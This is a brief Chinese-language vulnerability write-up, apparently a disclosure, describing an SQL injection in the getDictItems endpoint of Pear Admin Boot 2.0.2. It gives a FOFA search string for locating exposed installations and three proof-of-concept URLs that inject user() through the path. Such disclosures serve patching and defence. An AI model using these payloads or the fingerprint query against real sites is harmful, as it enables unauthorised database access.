 ## Pear-Admin-Boot存在SQL注入漏洞

在Pear Admin Boot 2.0.2版本中发现了一个漏洞，并被列为严重漏洞。此问题影响文件/system/dictData/getDictItems/的getDictItems函数。输入,user(),1,1 的操作会导致SQL注入。

## fofa

```
body="明 湖 区 最 具 影 响 力 的 设 计 规 范 之 一"
```

## poc

```
http://localhost:8088/system/dictData/getDictItems/gen_table,user(),1,1
http://localhost:8088/system/dictData/getDictItems/sys_user,user(),1
http://localhost:8088/system/dictData/loadDictItem/sys_user,user(),1?key=1
```

![输入图片说明](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406281713539.png)

![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406281713996.png)